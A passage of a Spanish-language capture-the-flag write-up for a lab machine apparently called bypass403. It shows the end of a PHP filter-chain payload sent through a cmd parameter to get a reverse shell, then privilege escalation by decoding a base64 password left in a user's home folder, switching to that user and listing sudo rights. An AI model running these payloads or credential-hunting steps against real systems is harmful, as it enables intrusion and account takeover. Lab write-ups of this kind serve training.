 ```bash
B|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&cmd=$COMANDO_CODIFICADO" -H "Referer: http://bypass403.pw/index.php"
```

**Nota** Al codificar completamente el comando y asegurar que la URL no tenga caracteres especiales sin escape, solucionas el error de "Malformed input". La conexión inversa debería establecerse correctamente

---
## Escalada de Privilegios
### Enumeracion del Sistema

**Hallazgos Clave:**
En la siguiete ruta tenemos lo siguiete:
```bash
/home/bambi/.secret/interestingSecret.txt
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Tenemos un archivo del usuario **bambi** el cual reviasmos que tipo de contenido:
```bash
bambi:c3VwZXJzZWNyZXRwYXNzd29yZDEyMw
```

Revisando el tipo de hash nos retorna esto: - Es un **falso positivo** porque en realidad es texto plano codificado, no un hash.
```bash
hashid c3VwZXJzZWNyZXRwYXNzd29yZDEyMw
Analyzing 'c3VwZXJzZWNyZXRwYXNzd29yZDEyMw'
[+] Juniper Netscreen/SSG(ScreenOS)
```

Asi que procedemos a decodificarlo:
```bash
echo "c3VwZXJzZWNyZXRwYXNzd29yZDEyMw" | base64 -d
```

Tenemos la contrasena del usuario **bambi**
```bash
supersecretpassword123
```

Migramos a este usuario:
```bash
# Comando para escalar al usuario: ( bambi )
su bambi # ( supersecretpassword123 )
```

###### Usuario `[ bambi ]`:
Listando sus permisos de usuario:
```bash
sudo -l

User bambi may run the following commands on a46ca3e7ea1a:
    (ALL : ALL) NOPASSWD: /usr/bin/furb # Tenemos una via potencial de migrar a root
```
